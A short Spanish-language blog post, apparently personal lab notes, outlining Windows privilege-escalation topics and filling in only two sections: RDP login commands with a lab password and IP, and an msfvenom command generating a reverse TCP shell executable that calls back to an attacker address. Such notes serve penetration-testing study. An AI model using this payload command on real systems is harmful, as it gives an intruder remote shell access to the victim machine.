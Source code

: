 ```yaml
---
layout: post
title: Windows - PrivEsc
subtitle: "Windows - PrivEsc"
tags: [windows]
---
```


- [Conexion remota](#conexion-remota)
  * [Generar shell inverso](#generar-shell-inverso)
- [Contraseña - Creditos guardados](#contrase-a---creditos-guardados)
- [Administrador de cuentas de seguridad SAM](#administrador-de-cuentas-de-seguridad-sam)
- [Apliacciones de GUI inseguras](#apliacciones-de-gui-inseguras)
- [Pass The Hash](#pass-the-hash)
- [Registro Ejecuciones automaticas](#registro-ejecuciones-automaticas)
- [Exploit de servicio Permisos de servicio inseguro](#exploit-de-servicio-permisos-de-servicio-inseguro)
- [Unquote Service Path](#unquote-service-path)
- [Explotaciones de servicio Permisos de registros débiles](#explotaciones-de-servicio-permisos-de-registros-d-biles)
- [Tareas programadas](#tareas-programadas)


## Conexion remota

```
rdesktop -u user -p password321 
xfreerdp /u:user /p:password321 /v:10.10.108.120 /cert:ignore
```

![rdp](../assets/imgs/winp/rdp.png)

----

### Generar shell inverso

```
msfvenom -p windows/shell_reverse_tcp lhost=10.9.102.237 lport=4444 -f exe > reverse.exe
```

